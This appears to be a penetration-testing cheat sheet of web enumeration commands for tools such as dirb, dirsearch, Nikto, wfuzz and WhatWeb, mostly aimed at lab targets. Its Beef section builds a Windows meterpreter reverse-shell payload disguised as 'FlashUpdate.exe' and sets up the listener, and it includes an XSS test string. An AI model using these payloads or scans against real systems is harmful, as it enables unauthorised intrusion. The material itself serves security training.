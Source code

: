 # Basic Web Enumeration

## Objectives

Basic Web Enumeration Tools and Examples

## Beef

Create Payload:

```text
msfvenom ­a x86 ­­platform Windows ­p windows/meterpreter/reverse_tcp lhost=10.10.75.1 lport=4444 ­f exe ­o /tmp/FlashUpdate.exe
```

Serve Simple Web Page:

```text
python -­m SimpleHTTPServer 8000 &
```

Start MSF Handler:

```text
root@slingshot:~# msfconsole -­q
set PAYLOAD windows/meterpreter/reverse_tcp PAYLOAD => windows/meterpreter/reverse_tcp
set LHOST 10.10.75.1
msf exploit(handler) > exploit
```

Start Beef:

```text
cd /opt/beef
./beef
```

## Dirbuster

Dirbuster from Command Line - tool is GUI-based where more settings can be configured:

```text
dirb http://192.168.1.5/dvwa
```

DIRB can identify valid web pages on a web server even if the main index page is missing:

```text
dirb http://www.megacorpone.com -r -z 10
```

Dirbuster with Metasploit:

```text
use auxiliary/scanner/http/dir_scanner   
msf auxiliary(dir_scanner) >set dictionary /usr/share/wordlists/dirb/common.txt
msf auxiliary(dir_scanner) >set rhosts 192.168.1.5
msf auxiliary(dir_scanner) > set path /dvwa
msf auxiliary(dir_scanner) >exploit
```

## Dirsearch

Basic Dirsearch Checking

```text
./dirsearch.py –u http://192.18.1.5/dvwa -e php -f -x 400,403,404
```

## Nikto

Nikto Resource: [https://redteamtutorials.com/2018/10/24/nikto-cheatsheet/](https://redteamtutorials.com/2018/10/24/nikto-cheatsheet/)

Update the plugins and databases

```text
nikto -update
```

Scanning a host and specifying an amount of time for a scan

```text
nikto -h <Hostname/IP>
nikto -host=<hostname/IP> -maxtime=30s
```

Specify host header

```text
nikto -h <Hostname/IP> -vhost
```

Only perform an SQL injection test against your target:

```text
nikto -Tuning 9 -h example.com
```

Run everything except DOS:

```text
nikto -Tuning x 6 -h example.com
```

Perform an SQL injection test and save results to an html file with verbose output for your terminal:

```text
nikto -Display V -o results.html -Format htm -Tuning 9 -h example.com
```

The following command will run a Nmap scan on host 192.168.0.0 – 192.168.0.24 using a grepable output which is defined by the -oG- flag:

```text
nmap -p80 10.0.0.0/24 -oG – | nikto -h –
```

Simple browser script to test for XSS flaws:

```text
<script>alert("Vulnerable!");</script>
http://10.0.0.10/index.php?loc=<script>alert("Vulnerable!");</script>
```

Nikto: Scan PROD Server

```text
'export PROD=box.to.scan'
nikto.pl -C "none" -h $PROD -findonly - skips CGI, reconnaissance only
nikto.pl -C "none" -h $PROD -Plugins "robots" - searches for 'robots.txt' problems
nikto.pl -C "none" -h $PROD -findonly -D 2 - reconnaissance that reveals COOKIES
nikto.pl -D V -o nikto.log.1.txt -h $STAGING - creates local log file in directory from which 'nikto.pl' was executed
nikto.pl -D V -o nikto.log.recon.1.txt -h $STAGING -findonly - will NOT log to FILE, but rather: STDOUT
nikto.pl -C none -D V -o nikto.log.recon.`date +%s`.html -Format htm -h 10.0.0.1 - spaces LOG files by seconds
```

## Skipfish:

skipfish -o OUTPUT\_DIRECTORY TARGET\_URL skipfish -o linuxcbt.internal [https://www.linuxcbt.internal](https://www.linuxcbt.internal)

## WhatWeb

Use Whatweb to enumerate details on the website \(can also use their website, as well\):

```text
whatweb https://www.test.com/
```

## Wfuzz

```text
wfuzz -c -W /usr/share/wfuzz/wordlist/dir/common.txt --hc 400,404,403 http://192.168.1.5/dvwa/
```

